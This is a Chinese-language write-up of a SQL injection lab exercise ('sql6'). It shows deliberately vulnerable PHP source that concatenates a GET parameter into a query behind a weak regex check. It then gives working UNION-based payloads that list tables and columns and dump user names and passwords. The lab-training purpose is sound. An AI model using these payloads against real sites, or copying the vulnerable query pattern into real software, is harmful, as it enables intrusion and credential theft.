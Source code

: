 # sql6

进入example6.php

源码
```php
<?php

   require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/[0-9]+$/', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"] ;


        $result = mysql_query($sql);


if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
这里呢使用了正则匹配结尾是否是数字，给`preg_match`加了一个!，就说明了如果传参的参数的结尾不是数字的话就结束程序
行吧
因为mysql是支持嵌套查询的
所以这里可以使用联合查询中再嵌套查询，让字段数在结尾就可以了
payload1
```sql
example6.php?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5 
```
payload1执行的结果
![img]( ../../../image/sqli/3289907237090.png)
得到表名
payload2

```sql
example6.php?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3,4,5 
```
![img](../../../image/sqli/43909234592.png)
得到字段名

```sql
example6.php?id=-1 union select 1,(select group_concat("用户名：",name,"->","密码：",passwd separator 0x3c62723e) from users),3,4,5 
```
>0x3c62723e 是换行的hex值
separator是group_concat函数的一个用法，是可以将查询结果的每一条字符串做为一行的结尾添加一个字符串

![img](../../../image/sqli/3187916215833.png)
拿到数据

| 请求方式 |          过滤方式           |      注入方式      | 闭合方式 |
| -------- | -------------------------- | ----------------- | -------- |
| GET      | 正则匹配传参的结尾是否是数字 | 联合查询，嵌套查询 |数字型不需要闭合          |
过关咯！
😀😀😀😀